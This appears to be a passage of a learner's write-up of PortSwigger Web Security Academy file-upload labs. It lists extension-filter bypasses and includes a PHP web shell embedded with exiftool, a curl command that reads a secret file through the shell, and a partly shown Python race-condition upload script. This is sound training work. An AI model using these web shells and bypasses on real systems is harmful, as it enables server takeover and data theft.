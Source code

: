 #### Lab: Web shell upload via obfuscated file extension
- Chandge case - `exploit.pHp`
- Provide multiple extensions - `exploit.php.jpg`
- Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E, xC4 xAE or xC0 xAE` may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- Check for stripping - `exploit.p.phphp`

Actual lab solution:
- Just upload regular .php file, intercept request and change filename using null bytes: `filename="shell.php%00.jpg"`

#### Lab: Remote code execution via polyglot web shell upload
- In the theory before the lab we already have written `Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.`
- So let's do that:

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' shell-img.jpg
```

- When uploading intercept and change extension to `.php` and check this path:

```bash
curl https://<YOUR-LAB>.web-security-academy.net/files/avatars/shell-img.php?cmd=cat+/home/carlos/secret
```

### File upload vulnerabilities labs (Expert)

#### Lab: Web shell upload via race condition
- Because of the name of the lab I decided to just write a python script for this race condition:

```python
from concurrent.futures import ThreadPoolExecutor

import requests

POST_URL = "https://<YOUR-LAB>.web-security-academy.net/my-account/avatar"
SHELL_URL = (
    "https://<YOUR-LAB>.web-security-academy.net/files/avatars/shell.php"
)
COOKIIES = {"session": "UZnvQQTTCVLAWJYwujyJj7OXUwvU1ESm"}  # put yours
CSRF_TOKEN = "OUYGAW5i3dhSuNnTVHjctfdXiNmuUzFl"  # put yours

def post_req():
    data = {"user": "wiener", "csrf": CSRF_TOKEN}
    files = {"avatar": ("shell.php", "<?php system($_GET['cmd']); ?>", "application/x-php")}
    resp = requests.post(POST_URL, cookies=COOKIIES, data=data, files=files)
    print(f"[POST] {resp.status_code} - {resp.reason}")


def get_req(i):
    params = {"cmd": "cat /home/carlos/secret"}
    resp = requests.get(SHELL_URL, params=params, cookies=COOKIIES)
```